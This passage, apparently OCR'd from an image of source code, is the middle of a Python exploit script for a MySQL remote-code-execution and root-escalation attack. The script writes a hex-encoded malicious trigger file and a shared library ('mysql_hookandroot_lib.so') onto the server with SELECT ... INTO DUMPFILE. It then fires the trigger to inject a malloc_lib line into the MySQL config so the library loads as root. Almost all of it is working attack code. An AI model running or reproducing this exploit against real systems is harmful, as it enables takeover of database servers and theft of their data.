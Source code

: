 ~~~~~~~~~~~~~~~~~~~~~~~~~
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'

[abyss]
" INTO void;   
   set global general_log = off;

END; //
DELIMITER ;
"""
trigger_payload="""TYPE=TRIGGERS
triggers='CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf\\nAFTER INSERT\\n   ON `poctable` FOR EACH ROW\\nBEGIN\\n\\n   DECLARE void varchar(550);\\n   set global general_log_file=\\'%s\\';\\n   set global general_log = on;\\n   select "\\n\\n# 0ldSQL_MySQL_RCE_exploit got here :)\\n\\n[mysqld]\\nmalloc_lib=\\'%s\\'\\n\\n[abyss]\\n" INTO void;   \\n   set global general_log = off;\\n\\nEND'
sql_modes=0
definers='root@localhost'
client_cs_names='utf8'
connection_cl_names='utf8_general_ci'
db_cl_names='latin1_swedish_ci'
""" % (args.TARGET_MYCNF, malloc_lib_path)

# Convert trigger into HEX to pass it to unhex() SQL function
trigger_payload_hex = "".join("{:02x}".format(ord(c)) for c in trigger_payload)

# Save trigger into a trigger file
TRG_path="/var/lib/mysql/%s/poctable.TRG" % args.TARGET_DB
info("Saving trigger payload into %s" % (TRG_path))
try:
    cursor = dbconn.cursor()
    cursor.execute("""SELECT unhex("%s") INTO DUMPFILE '%s' """ % (trigger_payload_hex, TRG_path) )
except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(4)

# Save library into a trigger file
info("Dumping shared library into %s file on the target" % malloc_lib_path)
try:
    cursor = dbconn.cursor()
    cursor.execute("""SELECT unhex("%s") INTO DUMPFILE '%s' """ % (hookandrootlib_hex, malloc_lib_path) )
except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(5)

# Creating table poctable so that /var/lib/mysql/pocdb/poctable.TRG trigger gets loaded by the server
info("Creating table 'poctable' so that injected 'poctable.TRG' trigger gets loaded")
try:
    cursor = dbconn.cursor()
    cursor.execute("CREATE TABLE `poctable` (line varchar(600)) ENGINE='MyISAM'"  )
except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(6)

# Finally, execute the trigger's payload by inserting anything into `poctable`. 
# The payload will write to the mysql config file at this point.
info("Inserting data to `poctable` in order to execute the trigger and write data to the target mysql config %s" % args.TARGET_MYCNF )
try:
    cursor = dbconn.cursor()
    cursor.execute("INSERT INTO `poctable` VALUES('execute the trigger!');" )
~~~~~~~~~~~~~~~~~~~~~~~~~